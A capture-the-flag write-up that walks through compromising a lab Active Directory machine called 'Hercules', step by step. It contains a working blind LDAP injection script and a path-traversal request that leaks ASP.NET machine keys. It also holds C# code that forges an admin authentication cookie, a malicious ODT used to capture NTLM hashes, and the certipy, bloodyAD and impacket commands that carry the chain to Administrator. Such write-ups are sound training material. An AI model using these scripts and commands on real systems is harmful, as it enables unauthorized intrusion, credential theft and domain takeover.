```
Scope:
10.10.11.91
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn hercules.htb 

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://hercules.htb/
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-11-19 09:55:05Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: hercules.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hercules.htb
| Subject Alternative Name: DNS:dc.hercules.htb, DNS:hercules.htb, DNS:HERCULES
| Issuer: commonName=CA-HERCULES/domainComponent=hercules
443/tcp   open  ssl/http      syn-ack Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
|_http-title: Hercules Corp
| ssl-cert: Subject: commonName=hercules.htb
| Subject Alternative Name: DNS:hercules.htb
| Issuer: commonName=hercules.htb
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: hercules.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: hercules.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: hercules.htb0., Site: Default-First-Site-Name)
5986/tcp  open  ssl/http      syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=dc.hercules.htb
| Subject Alternative Name: DNS:dc.hercules.htb, DNS:hercules.htb, DNS:HERCULES
| Issuer: commonName=CA-HERCULES/domainComponent=hercules
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         syn-ack Microsoft Windows RPC
50731/tcp open  msrpc         syn-ack Microsoft Windows RPC
50737/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 65257/tcp): CLEAN (Timeout)
|   Check 2 (port 63960/tcp): CLEAN (Timeout)
|   Check 3 (port 8730/udp): CLEAN (Timeout)
|   Check 4 (port 30712/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-11-19T09:55:55
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## 88/TCP - Kerberos
### mutating wordlist

Starting off I tried enumerating some users but this gave no valid users. 


I then decided to mutate existing wordlists:

```bash
while read -r u; do for c in {a..z}; do echo "${u}.${c}"; done; done < /usr/share/seclists/Usernames/statistically-likely-usernames/john.txt > mutated.txt
```



This started pouring out usernames like it was christmas:





# Exploitation
## 443/TCP - HTTPS

Over on port `443` we notice a website running:


This appears to be static so I run a `gobuster` scan.

### gobuster



I find the `/login` endpoint and head on over:



I tried some input to analyse the request:



### burpsuite

Inside `burp` I analysed the request:



We need to be caucious with our testing:



It appears that there is some sort of **rate-limiting** present. 

:::note
Since the found users are using the `ldap` protocol this could mean that there is a presence of **LDAP Injection** here.
:::

### LDAP Injection

For my testing I would use [this cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection):



Unfortunately this didn't show anything and it was more of a *blind* injection.

:::note
I was stuck here and was provided the following script that would automate the LDAP Injection testing for me.
:::

With the help of the below script we could quickly enumerate whether a user has a password in their **description** field. 

```python
#!/usr/bin/env python3
import requests
import string
import urllib3
import re
import time

GREEN = "\033[92m"
RESET = "\033[0m"

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Configuration
BASE = "https://hercules.htb"
LOGIN_PATH = "/Login"
LOGIN_PAGE = "/login"
TARGET_URL = BASE + LOGIN_PATH
VERIFY_TLS = False

# Success indicator (valid user, wrong password)
SUCCESS_INDICATOR = "Login attempt failed"

# Token regex
TOKEN_RE = re.compile(r'name="__RequestVerificationToken"\s+type="hidden"\s+value="([^"]+)"', re.IGNORECASE)

with open("usernames.txt", "r") as f:
    KNOWN_USERS = [line.strip() for line in f if line.strip()]

def get_token_and_cookie(session):
    response = session.get(BASE + LOGIN_PAGE, verify=VERIFY_TLS)
    token = None
    match = TOKEN_RE.search(response.text)
    if match:
        token = match.group(1)
    return token

def test_ldap_injection(username, description_prefix=""):
    session = requests.Session()
    token = get_token_and_cookie(session)
    if not token:
        return False

    # Build LDAP injection payload
    if description_prefix:
        escaped_desc = description_prefix
        if '*' in escaped_desc:
            escaped_desc = escaped_desc.replace('*', '\\2a')
        if '(' in escaped_desc:
            escaped_desc = escaped_desc.replace('(', '\\28')
        if ')' in escaped_desc:
            escaped_desc = escaped_desc.replace(')', '\\29')
        payload = f"{username}*)(description={escaped_desc}*"
    else:
        # Check if user has description field
        payload = f"{username}*)(description=*"

    # Double URL encode
    encoded_payload = ''.join(f'%{byte:02X}' for byte in payload.encode('utf-8'))

    data = {
        "Username": encoded_payload,
        "Password": "test",
        "RememberMe": "false",
        "__RequestVerificationToken": token
    }

    try:
        response = session.post(TARGET_URL, data=data, verify=VERIFY_TLS, timeout=5)
        return SUCCESS_INDICATOR in response.text
    except Exception as e:
        return False

def enumerate_description(username):
    charset = (
        string.ascii_lowercase +
        string.digits +
        string.ascii_uppercase +
        "!@#$_*-." + # Common special chars
        "%^&()=+[]{}|;:',<>?/`~\" \\" # Less common special chars
    )

    print(f"\n[*] Checking user: {username}")

    if not test_ldap_injection(username):
        print(f"[-] User {username} has no description field")
        return None

    print(f"[+] User {username} has a description field, enumerating...")
    description = ""
    max_length = 50
    no_char_count = 0

    for position in range(max_length):
        found = False
        for char in charset:
            test_desc = description + char
            if test_ldap_injection(username, test_desc):
                description += char
                print(f" Position {position}: '{char}' -> Current: {description}")
                found = True
                no_char_count = 0
                break
            # Small delay to avoid rate limiting IMPORTANT!!!
            time.sleep(0.01)

        if not found:
            no_char_count += 1
            if no_char_count >= 2:
                break

    if description:
        print(f"[+] Complete: {username} => {description}")
        return description
    return None

def main():
    print("="*60)
    print("Hercules LDAP Description/Password Enumeration")
    print(f"Testing {len(KNOWN_USERS)} users")
    print("="*60)

    found_passwords = {}
    
    for user in KNOWN_USERS:
        password = enumerate_description(user)
        if password:
            found_passwords[user] = password
            
            # Save results immediately
            with open("passwords.txt", "a") as f:
                f.write(f"{user}:{password}\n")
            print(f"\n[+] FOUND: {user}:{GREEN}{password}{RESET}\n")

    print("\n" + "="*60)
    print("ENUMERATION COMPLETE")
    print("="*60)

    if found_passwords:
        print(f"\nFound {len(found_passwords)} passwords:")
        for user, pwd in found_passwords.items():
            print(f" {user}: {pwd}")
    else:
        print("\nNo passwords found")

if __name__ == "__main__":
    main()
```

We run the script:



Further down below we notice this output:



```
johnathan.j
change*th1s_p@ssw()rd!!
```

However these creds don't work for the website:



Let's try them for the `ldap` protocol instead.

### nxc

I used `nxc` to password spray:



:::note
It mentions `STATUS_NOT_SUPPORTED` instead of logon failure, meaning we need to append the `-k` option to enable the kerberos pre_auth  
:::



This time around we have a match:

```
ken.w 
change*th1s_p@ssw()rd!!
```

Checking the target with the `get-desc-users` module we see the password in *jonathan.j*'s description:


:::important
Don't store your password in the description 😁
:::



### Access 

This time around it gave me access:


Checking the mail we find 3 mails:





This mail shows us why we're able to connect using `ldap` credentials. Furthermore it shows us the `web_admin` user.

I then checked the next email:



Interesting, this might come in handy.

Lastly:



However even after adding these hosts to the `/etc/hosts` file the pages wouldn't load:



### LFI

Instead I headed over to the **Downloads** tab:



When I intercepted the request upon downloading a file I noticed the following:



I sent this request to **Repeater** where I tried to abuse **LFI**:

```
/Home/Download?fileName=../../web.config
```



The response showed some valuable data:



```
decryption="AES"
decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581" 
validation="HMACSHA256" 
validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80"
```

### Dotnet 

Using `dotnet` we can attempt some shenanigans:



When this is done we will need to use the following commands:

```bash
dotnet add package AspNetCore.LegacyAuthCookieCompat --version 2.0.5
dotnet restore
```





Now we will be overwriting the `Program.cs` code using the following code:

```C#
using System;
using System.Security.Claims;
using System.Threading.Tasks;
using AspNetCore.LegacyAuthCookieCompat;

class Program
{
    static void Main(string[] args)
    {
        string validationKey = 
"EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80";

        string decryptionKey = 
"B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581";

        var issueDate = DateTime.Now;
        var expiryDate = issueDate.AddHours(1);
        var formsAuthenticationTicket = new FormsAuthenticationTicket(1, "web_admin", 
issueDate, expiryDate, false, "Web Administrators", "/");

        byte[] decryptionKeyBytes = HexUtils.HexToBinary(decryptionKey);
        byte[] validationKeyBytes = HexUtils.HexToBinary(validationKey);

        var legacyFormsAuthenticationTicketEncryptor = new 
LegacyFormsAuthenticationTicketEncryptor(decryptionKeyBytes, validationKeyBytes, 
ShaVersion.Sha256);

        var encryptedText = 
legacyFormsAuthenticationTicketEncryptor.Encrypt(formsAuthenticationTicket);

        Console.WriteLine(encryptedText);
    }
}
```

:::important
Pay attention to the above, this will basically forge us access as the *web_admin* account that we've found previously
:::



Once the code is written we will compile and run it:



The program has compiled us a cookie which is valid for the *web_admin* user, we will now use this cookie to replace the current one on the website:



Now change the value of `.ASPXAUTH` to the generated cookie and refresh the page, this will change the access to *web_admin*:



### File Upload Attack - Leaking NetNTLM Creds

We now get access to the **Forms** tab where we can abuse the file upload:



Using [this script](https://github.com/lof1sec/Bad-ODF/tree/main) we're able to create a malicious `.odt` file. When uploaded this will ping our listener, e.g. `responder` in my case which will leak the NTLM creds of the user's account.



I then used the following commands:

```bash
python3 -m venv venv
source venv/bin/activate
uv pip install ezodf lxml
python3 Bad-ODF.py
```


After inputting my listener I uploaded the file and launched `responder`.





After a short while this was the output:



Using `john` I quickly cracked the password:



```
natalie.a
Prettyprincess123!
```

## BloodHound

Using these creds I enumerated the domain using `bloodhound`:



:::note
In hindsight I could've also done this using the creds for `ken.w`:


:::

I then launched `bloodhound` and ingested the files:



I then added my owned users and started enumerating the target:



For some reason it didn't fully show up as it should, this was due to a ingest error:


Apparently the groups didn't fully upload. I tried resetting the machine but it didn't do anything so I went on to use `ldapsearch` instead.

Using the following command I enumerated what groups *natalie.a* was part of:

```bash
ldapsearch -x -H ldap://10.10.11.91 -D "natalie.a@hercules.htb" -w 'Prettyprincess123!' -b "DC=hercules,DC=htb" "(sAMAccountName=natalie.a)" 
```



This group didn't contain anyone useful but when I looked further I found someone who was:



And it then turned out that using the **Web Support** group, the user *natalie.a* has **GenericWrite** privileges over *bob.w*.

```bash
bloodyAD --host dc.hercules.htb -d 'hercules.htb' -u 'natalie.a' -k get writable 
```



## Shadow Certificate
### certipy-ad

We will first have to obtain a tgt for *natalie.a* as NTLM creds won't work.



Accordingly we can execute the following command with `certipy-ad` in order to fetch the NT hash for *bob.w*:



This hash did not turn out to be crackable, but instead we can request another tgt but for *bob.w* this time around.



Using `bloodyAD` we will check out what we can do with the *bob.w* user:

```bash
bloodyAD --host dc.hercules.htb -d 'hercules.htb' -u 'bob.w' -k get writable
```



Amongst many others these stood out. Furthermore we noticed this user:



We're gonna go ahead and transfer them to the **Web Department** since that group has higher privs. To do this we'll be using the `powerview.py` tool,

## Powerview

We install the tool as follows:

```bash
uv tool install git+https://github.com/aniqfakhrul/powerview.py
```



Next up we use the following commands:

```bash
powerview hercules.htb/bob.w@dc.hercules.htb -k --use-ldaps --dc-ip 10.10.11.91 -d --no-pass
Set-DomainObjectDN -Identity stephen.m -DestinationDN 'OU=Web Department,OU=DCHERCULES,DC=hercules,DC=htb'
```



Since the *stephen.m* user is now modified under the **Web Department** we'll need to request his shadow cert using *natalie.a*, and afterwards request his TGT:

```bash
certipy-ad shadow -u 'natalie.a@hercules.htb' -account 'stephen.m' auto -dc-host dc.hercules.htb -k
```



```bash
impacket-getTGT 'hercules.htb/stephen.m' -hashes :9aaaedcb19e612216a2dac9badb3c210 -dc-ip 10.10.11.91
```



Next up we can use `powerview` again to change the password of *Auditor*:

```bash
powerview hercules.htb/stephen.m@dc.hercules.htb -k --use-ldaps --dc-ip 10.10.11.91 -d --no-pass
Set-DomainUserPassword -Identity Auditor -AccountPassword 'P@ssword123'
```



Now we can go ahead and request the ticket for the modified *Auditor* user:



# Foothold
## 5986/TCP - WINRMS

:::important
For the following I used [this python binary](https://github.com/ozelis/winrmexec):


:::

Finally we get access as the *Auditor* user with the following `winrmexec` command:



### user.txt

Luckily for us the `user.txt` flag was up for grabs:



### Enumeration

Since my `bloodhound` was sub-optimal I tried to collect data fresh from the target using `sharphound`, but the host flagged it as a virus:



I then started doing some basic enum commands in order to find out more about the environment and the user:




Turns out the *Auditor* user is part of the **Forest Management** group.


### Forest Migration OU

We can check the ACL's of the **Forest Migration** OU:

```powershell
(Get-ACL "AD:OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb").Access | Where-Object { $_.IdentityReference -like "*Forest Management*" } | Format-List *
```



Having found this we'll want to use `bloodyAD` again in order to set our *Auditor* user as owner of the **Forest Migration** OU:

```bash
bloodyAD --host dc.hercules.htb -d 'hercules.htb' -u Auditor -k set owner 'OU=FOREST MIGRATION,OU=DCHERCULES,DC=HERCULES,DC=HTB' Auditor
```



Afterwards we'll want to add the `GenericAll` privs:

```bash
bloodyAD --host dc.hercules.htb -d 'hercules.htb' -u Auditor -k add genericAll 'OU=FOREST MIGRATION,OU=DCHERCULES,DC=HERCULES,DC=HTB' Auditor
```



Now I enumerated the users within the **Forest Migration** OU:

```powershell
Get-ADUser -SearchBase "OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb" -Filter *
```



I enumerated the found users, one stood out:



### Enabling fernando.r account

Since the account is disabled we'll need to enable it first using `powerview`.

```bash
powerview hercules.htb/Auditor@dc.hercules.htb -k --use-ldaps --dc-ip 10.10.11.91 -d --no-pass
```

```powershell
Add-DomainObjectAcl -TargetIdentity "OU=FOREST MIGRATION,OU=DCHERCULES,DC=HERCULES,DC=HTB" -PrincipalIdentity auditor -Rights fullcontrol -Inheritance
Set-DomainUserPassword -Identity fernando.r -AccountPassword 'P@ssword123'
Set-ADUser -Identity "fernando.r" -Enabled $true
```





Then from our other terminal:



# Privilege Escalation
## ESC3

Now we'll request the TGT for *fernando.r*:

```bash
impacket-getTGT 'hercules.htb/fernando.r':'P@ssword123' -dc-ip 10.10.11.91
```



In turn I used the following to find the **ESC3 - ADCS** vulnerability on the target:

```bash
certipy-ad find -k -dc-ip 10.10.11.91 -target dc.hercules.htb -stdout -vulnerable
```





This is good news, we can abuse the permissions on the **Enrollment Rights** template using `certipy-ad`:

```bash
certipy-ad req -u "fernando.r@hercules.htb" -k -no-pass -dc-host dc.hercules.htb -dc-ip 10.10.11.91 -target "dc.hercules.htb" -ca 'CA-HERCULES' -template "EnrollmentAgent" -application-policies "Certificate Request Agent"
```



Next up we will enroll the *ashley.b* user:

```bash
certipy-ad req -u "fernando.r@hercules.htb" -k -no-pass -dc-host dc.hercules.htb -dc-ip 10.10.11.91 -target "dc.hercules.htb" -ca 'CA-HERCULES' -template "User" -on-behalf-of 'HERCULES\ashley.b' -pfx fernando.r.pfx -dcom
```



Now we're gonna pass on the cert.

```bash
certipy-ad auth -pfx ashley.b.pfx -dc-ip 10.10.11.91
```



Afterwards we're gonna request a TGT ticket again:



We can now go ahead and login.

## Lateral Movement to ashley.b



After logging in I enumerated the user's home directory:


Multiple `powershell` scripts were discovered. I viewed these one by one.

The `Desktop` directory:



The `Mail` directory:



The `Scripts` directory:



## Enabling iis_administrator account

:::note
This is the same as [[#Enabling fernando.r account]] but this time around from `linux` using `bloodyAD`, this is simply because it did not work for me using `powerview` here.
:::

We're gonna be running the `aCleanup.ps1` script.



Next up we're gonna abuse the `GenericAll` privs again from the **Forest Migration** OU of *Auditor*:

```bash
bloodyAD --host 'dc.hercules.htb' -d 'hercules.htb' -u 'auditor' -k add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' 'IT SUPPORT'
```



Now we'll want to focus on taking over the *IIS_Administrator* account.

```bash
bloodyAD --host 'dc.hercules.htb' -d 'hercules.htb' -u 'auditor' -k add genericAll 'OU=Forest Migration,OU=DCHERCULES,DC=hercules,DC=htb' Auditor
bloodyAD --host DC.hercules.htb -d hercules.htb -u 'Auditor' -k remove uac "IIS_Administrator" -f ACCOUNTDISABLE
```



:::warning
If the latter command fails for whatever reason, execute the `aCleanup.ps1` script again and repeat the commands.
:::

We will now be changing the password for the *IIS_Administrator* user:

```bash
bloodyAD --host DC.hercules.htb -d hercules.htb -u 'Auditor' -k set password "IIS_Administrator" "P@ssword123"
```



Following up we will yet again request the TGT:

```bash
impacket-getTGT 'hercules.htb/IIS_Administrator':'P@ssword123' -dc-ip 10.10.11.91
```



## Changing iis_webserver$ password

Now we're gonna go ahead and change the password for the *iis_webserver$* machine account.

```bash
bloodyAD --host DC.hercules.htb -d hercules.htb -u 'IIS_Administrator' -k set password "IIS_Webserver$" "P@ssword123"
```



Accordingly we request the TGT again, but with a slight twist. We need to request the TGT using a hash.

```bash
iconv -f ASCII -t UTF-16LE <(printf 'P@ssword123') | openssl dgst -md4
impacket-getTGT 'hercules.htb/IIS_Webserver$':'P@ssword123' -dc-ip 10.10.11.91
```



We can then use the `describeTicket` tool from `impacket` to view the session key:



Afterwards we use the `changepasswd` tool to change the password:



## S4U2SELF Abuse - Impersonating Administrator

We can then request a CIFS impersonating the *Administrator* user.

```bash
impacket-getST -u2u -impersonate "Administrator" -spn "cifs/dc.hercules.htb" -k -no-pass 'hercules.htb'/'IIS_Webserver$'
```



After exporting the ticket we can log in, smooth sailing.



### root.txt




---